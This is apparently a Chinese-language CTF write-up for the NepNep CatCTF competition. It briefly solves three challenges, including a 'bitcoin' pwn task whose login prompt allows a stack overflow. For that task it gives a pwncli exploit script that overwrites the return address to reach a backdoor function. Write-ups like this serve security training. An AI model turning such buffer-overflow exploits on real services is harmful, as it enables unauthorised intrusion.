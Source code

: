 ```yaml
---
title: NepNep_Catctf_wp
date: 2023-01-02 15:31:15
tags: [CTF, NepNep, CatCtf, WP]
categories: 
    - CTF
    - Pwn
    - Misc
    - NepNep
comment: true
---
```


# PWN

## welcome_CAT_CTF

### 分析
- 给了一个server文件和client文件
- client要求输入ip和port，然后进入一个地图界面

### 思路

- 猜测远程跑在server，直接ida动调，patch本地的client，然后直接拿远程的flag

## bitcoin

### 分析

- C++程序，login输入用户名和密码时可溢出
- Block构造函数会读写flag

### 思路

- 直接栈溢出返回到后门
- 需要注意的是menu函数内的bitcoin_start函数内fork了一个子程序，调试时需要设置下set follow-fork-mode parent跟父进程

### EXP
``` python
#!/usr/bin/env python3
# Date: 2022-12-31 22:06:36
# Link: https://github.com/RoderickChan/pwncli
# Usage:
#     Debug : python3 exp.py debug elf-file-path -t -b malloc
#     Remote: python3 exp.py remote elf-file-path ip:port

from pwncli import *
cli_script()


io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

# one_gadgets: list = get_current_one_gadget_from_libc(more=False)
CurrentGadgets.set_find_area(find_in_elf=True, find_in_libc=False, do_initial=False)

rl()
rl()
sl()
ru("Name: ")
sl("aa")
ru("Password: ")
stop()
sl(b"a"*64+p64_ex(0x609a00)+p64_ex(0x0000000000404EA4))
stop()
ia()
```

# Misc

## CatFlag

### 思路

- 直接cat 给的附件，有flag明文